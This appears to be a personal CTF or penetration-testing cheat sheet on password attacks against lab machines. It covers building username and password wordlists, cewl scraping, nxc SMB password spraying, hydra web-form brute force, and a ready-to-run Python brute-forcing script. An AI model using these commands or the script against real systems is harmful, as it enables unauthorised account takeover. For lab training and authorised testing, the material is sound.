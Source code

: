 #### Generate formatted userlist from list of users first and last name
```
~/Tools/ctf-wordlist-names.sh names.txt
```
- creates file named `formatted_name_wordlist.txt`
- https://github.com/PinkDraconian/CTF-bash-tools

#### Generate potential passwords from website with cewl
```
cewl 10.10.21.22 > passwords.txt
```


#### Useful Vim commands:
always start with `:`
remove all space before first character of each line `%s/^\s\+//`
remove everything after first space of each line `%s/ .*//`
removes everything before a certain character(:) of each line `%s/^.*://`
removes all characters before first `[` on each line `:%s/^[^[]*\[//`
remove everything after first `]` on each line `:%s/].*$//`


#### nxc spray each user with corresponding password, use `--no-bruteforce`
```
nxc smb 10.129.129.70 -u users1.txt -p passwords.txt --no-bruteforce --continue-on-success
```
- user and password list must be same size

#### Bruteforce Login page with hydra
```
hydra 10.129.222.16 -l dank -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```
- must include username `-l dank` even if not using on login
- can also use rockyou
- if targeting port 80 instead of 443, make sure to change `https-post-form` to `http-post-form` and syntax to:
```
hydra -L users.txt -P rockyou_ninja http-post-form://127.0.0.1:9001/index.php:"username=^USER^&password=^PASS^&login=:Login Restricted."
```
- use burp to get data for quotes at the end. 3 pieces of data between `:` includes:
	- relative subdirectory of login page
	- burp query
	- burp response or page response that indicates login failed
 - if seeing a bunch of tries and (0/0) in output, means command is wrong

#### Custom brute-force python script if hydra fails
```
import requests

url = "http://10.10.195.93:8081/auth"
users = open("users.txt", "r", encoding="utf-8").read().splitlines()
passwords = open("/usr/share/wordlists/rockyou.txt", "r", encoding="latin-1").read().splitlines()

for user in users:
    for password in passwords:
        response = requests.get(url, params={"login": user, "password": password})
        # Refine success detection here
        if "Invalid credentials" not in response.text and "You must specify a login and a password" not in response.text:
            print(f"Success: {user}:{password}")
            exit()

print("No valid credentials found.")
```